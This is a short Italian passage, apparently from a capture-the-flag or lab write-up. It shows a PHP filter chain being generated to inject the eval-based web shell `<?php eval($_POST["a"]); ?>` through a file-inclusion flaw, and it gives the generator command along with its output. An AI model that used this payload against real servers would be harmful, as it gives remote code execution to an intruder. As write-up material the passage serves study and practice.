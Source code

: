 
![PHP info](./img/phpinfo.png)

Allora si costruisce una PHP filter chain per includere il codice `<?php eval($_POST["a"]); ?>`.

```bash
$ python3 php_filter_chain_generator.py --chain '<?php eval($_POST["a"]); ?>'                                                                             
[+] The following gadget chain will generate the following code : <?php eval($_POST["a"]); ?> (base64 value: PD9waHAgZXZhbCgkX1BPU1RbImEiXSk7ID8+)
```